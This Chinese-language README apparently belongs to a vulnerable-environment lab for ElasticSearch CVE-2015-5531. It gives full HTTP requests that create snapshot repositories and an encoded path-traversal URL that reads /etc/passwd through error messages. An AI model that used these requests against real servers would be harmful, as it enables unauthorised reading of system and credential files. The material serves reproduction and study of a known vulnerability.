



# ElasticSearch 目录穿越漏洞（CVE-2015-5531）测试环境

jre版本：openjdk:8-jre

elasticsearch版本：v1.6.0

影响版本：1.6.1以下

## 原理

参考文章

- https://www.exploit-db.com/exploits/38383/
- http://www.freebuf.com/vuls/99942.html

说明：

elasticsearch 1.5.1及以前，无需任何配置即可触发该漏洞。之后的新版，配置文件elasticsearch.yml中必须存在`path.repo`，该配置值为一个目录，且该目录必须可写，等于限制了备份仓库的根位置。不配置该值，默认不启动这个功能。

## 漏洞复现

### 1. 新建一个仓库

```
PUT /_snapshot/test HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 108

{
    "type": "fs",
    "settings": {
        "location": "/usr/share/elasticsearch/repo/test" 
    }
}
```



### 2. 创建一个快照

```
PUT /_snapshot/test2 HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 108

{
    "type": "fs",
    "settings": {
        "location": "/usr/share/elasticsearch/repo/test/snapshot-backdata" 
    }
}
```


### 3. 目录穿越读取任意文件

访问 `http://your-ip:9200/_snapshot/test/backdata%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd`



如上图，在错误信息中包含文件内容（编码后），对其进行解码即可获得文件：

